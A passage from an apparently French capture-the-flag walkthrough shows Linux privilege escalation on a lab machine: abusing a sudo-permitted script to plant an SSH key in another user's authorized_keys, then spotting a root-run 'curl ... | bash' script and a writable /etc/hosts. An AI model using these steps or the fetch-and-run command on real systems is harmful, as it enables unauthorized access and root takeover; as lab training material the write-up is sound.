 ```console
-rwxr-xr-x 1 root root   78 Dec 13  2020 test.sh
kira@kira:~$ cat test.sh 
echo 'your name'
read name
echo  $name >/home/kali/message.txt
$1 2>/dev/null
kira@kira:~$ sudo -l
[sudo] password for kira: 
Matching Defaults entries for kira on kira:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kira may run the following commands on kira:
    (bassam) /home/kira/test.sh
```

Le script prend un paramètre (`$1`) et l'exécute. On va en profiter :

```console
kira@kira:~$ vi /tmp/key_no_pass.pub
kira@kira:~$ echo -e '#!/bin/bash\nmkdir -p /home/bassam/.ssh;cat /tmp/key_no_pass.pub >> /home/bassam/.ssh/authorized_keys' > /tmp/script.sh
kira@kira:~$ chmod 755 /tmp/script.sh 
kira@kira:~$ sudo -u bassam /home/kira/test.sh /tmp/script.sh
your name
yolo
/home/kira/test.sh: 3: /home/kira/test.sh: cannot create /home/kali/message.txt: Directory nonexistent
```

Malgré l'erreur ça a fonctionné.

### Linux 101

Une fois le shell de `bassam` récupéré, on doit passer par une autre entrée `sudoers` :

```console
$ id
uid=1001(bassam) gid=1001(bassam) groups=1001(bassam)
$ sudo -l
Matching Defaults entries for bassam on kira:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bassam may run the following commands on kira:
    (root) NOPASSWD: /home/bassam/down.sh
$ cat /home/bassam/down.sh
curl "http://mywebsite.test/script.sh" |bash 

$ ls -al /home/bassam/down.sh
-rwxr-xr-x 1 root root 47 Dec 13  2020 /home/bassam/down.sh
$ find /etc -type f -writable 2> /dev/null
/etc/hosts


```
